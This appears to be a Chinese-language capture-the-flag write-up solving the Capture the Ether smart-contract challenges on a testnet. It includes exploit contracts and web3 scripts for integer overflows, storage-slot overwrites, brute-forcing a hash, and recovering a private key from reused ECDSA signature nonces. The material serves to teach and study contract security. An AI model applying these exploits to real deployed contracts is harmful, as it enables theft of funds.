 ## Deploy a contract
![image](https://user-images.githubusercontent.com/118118760/223460455-645af028-aac9-4c26-8a1b-816c65241bda.png)
成功部署合约
## Call me
> (web3.utils.asciiToHex('RIPWU')).padEnd(64, '0')
'0x52495057550000000000000000000000000000000000000000000000000000'
## Guess the secret number
uint8取值空间极小[0,255],遍历查找
pragma solidity ^0.4.21;

contract ExploitGuessTheSecretNumberChallenge {
    bytes32 answerHash = 0xdb81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365;

    function guess() public view returns (uint256) {
        for (uint8 n = 0; n < 255; n++) {
            if (keccak256(n) == answerHash) {
                return n;
            }
        }

        return 256;
    }
}
## Token sale
buy() 函数中的乘法存在溢出

async function main() {
    const targetAddress = '0x546a782986933ff853248E865cC0AFd9fb93a721';
    const targetABI = require('../build/contracts/TokenSaleChallenge.json').abi;
    const targetContract = new web3.eth.Contract(targetABI, targetAddress);

    //
    const Max = web3.utils.toBN("0x10000000000000000000000000000000000000000000000000000000000000000");
    const Ether = web3.utils.toBN(web3.utils.toWei('1'));
    const Zero = web3.utils.toBN('0');
    const One = web3.utils.toBN('1');

    const divmod = Max.divmod(Ether);

    //
    var numTokens = divmod.div.add(One);
    const value = numTokens.mul(Ether).sub(Max);

    await targetContract.methods.buy(numTokens).send({value});
    await targetContract.methods.sell(One).send();
}
## Token Whale
transferFrom() 检查的是外部传入的 from 的余额，而实际扣款扣的是 msg.sender，存在溢出

pragma solidity ^0.4.21;

import "./TokenWhaleChallenge.sol";

contract ExploitTokenWhaleChallenge {
    TokenWhaleChallenge public target = TokenWhaleChallenge(0x4E12fAB3CF4aF2E96863c26c0949CEE97b092350);
    address public owner;

    function ExploitTokenWhaleChallenge() public {
        owner = msg.sender;
        require(target.balanceOf(owner) == target.totalSupply());
    }

    function attack() public {
        address self = address(this);
        uint256 allowance = target.allowance(owner, self);
        require(allowance > 0);

        target.transferFrom(owner, owner, allowance);
        target.transfer(owner, 1000000);
        require(target.isComplete() == true);
    }
}
## Retirement fund
collectPenalty() 中的减法操作存在溢出，问题是合约没有显式的 payable receive() 或 payable fallback()
参考 Ethernaut #7 Force，通过 SELEDESTRUCT 强制发送 ETH 即可
## Mapping
类似 Ethernaut #19 Alien Codex，也是覆盖漏洞
> console.log('0x' + (2n ** 256n - BigInt(web3.utils.keccak256('0x' + '1'.padStart(64, '0')))).toString(16))
0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
## Donation
donate() 中 donation 定义时未指定引用，默认指向 slot0
对 donation 的修改会覆盖 slot0 和 slot1，即 donations.length 和 owner
## Fifty years
题目要求是将合约中的 ETH 全部取走
构造特定的 contribution，其 unlockTimestamp 足够小，通过 withdraw 函数的校验
令 head 为 0，使得调用 withdraw 函数时可以将所有 contribution 资金都取出
contribution.timestamp 会覆盖 head，将 1 和 2 结合起来，插入 timestamp 为 0 的 contribution

再次调用 upsert 构建 contribution2
// timestamp 设置为 0，等于 contribution1.unlockTimestamp + 1 days，可以通过 require 检查
contract.upsert(10, 0)
需要调用 contract.withdraw(1) 就可以取出合约内所有资金
## Fuzzy identity
构造一个合约，实现 name 接口且合约地址中包含 “badc0de”
合约地址得包含 “badc0de”
address = keccak(RLP([deployer, nonce]))[12:]
部署合约contract IdentifierHacker is IName {
    
    function name() external view override returns (bytes32) {
        return bytes32("smarx");
    }
    
    function auth(FuzzyIdentityChallenge c) public {
        c.authenticate();
    }
    
    function checkCompleted(FuzzyIdentityChallenge c) public view returns (bool) {
        return c.isComplete();
    }
}
## Public Key
找到 owner 的 publicKey
从 etherscan 上找到 owner 发送过的交易的 rawtx，可以从 rawtx 中得到签名和交易信息，有了交易信息、签名，就可以恢复出公钥
const EthereumTx = require('ethereumjs-tx').Transaction

const rawtx = '0xf87080843b9aca0083015f90946b477781b0e68031109f21887e6b5afeaaeb002b808c5468616e6b732c206d616e2129a0a5522718c0f95dde27f0827f55de836342ceda594d20458523dd71a539d52ad7a05710e64311d481764b5ae8ca691b05d14054782c7d489f3511a7abf2f5078962'

let tx = new EthereumTx(rawtx, {chain: 'ropsten'})
let publicKey = tx.getSenderPublicKey().toString('hex')
console.log(publicKey
## Account takeover
得到 owner 的私钥
owner 发送的最早两笔交易，他们签名的 r 值是相同的
const EthereumTx = require('ethereumjs-tx').Transaction

const rawtx1 = '0xf86b80843b9aca008252089492b28647ae1f3264661f72fb2eb9625a89d88a31881111d67bb1bb00008029a069a726edfb4b802cbf267d5fd1dabcea39d3d7b4bf62b9eeaeba387606167166a07724cedeb923f374bef4e05c97426a918123cc4fec7b07903839f12517e1b3c8'
const rawtx2 = '0xf86b01843b9aca008252089492b28647ae1f3264661f72fb2eb9625a89d88a31881922e95bca330e008029a069a726edfb4b802cbf267d5fd1dabcea39d3d7b4bf62b9eeaeba387606167166a02bbd9c2a6285c2b43e728b17bda36a81653dd5f4612a2e0aefdb48043c5108de'

let tx1 = new EthereumTx(rawtx1, {chain: 'ropsten'})
let tx2 = new EthereumTx(rawtx2, {chain: 'ropsten'})
console.log(tx1.r.toString('hex') === tx2.r.toString('hex')) // true
得到私钥后利用 owner 地址调用目标的 authenticate 方法




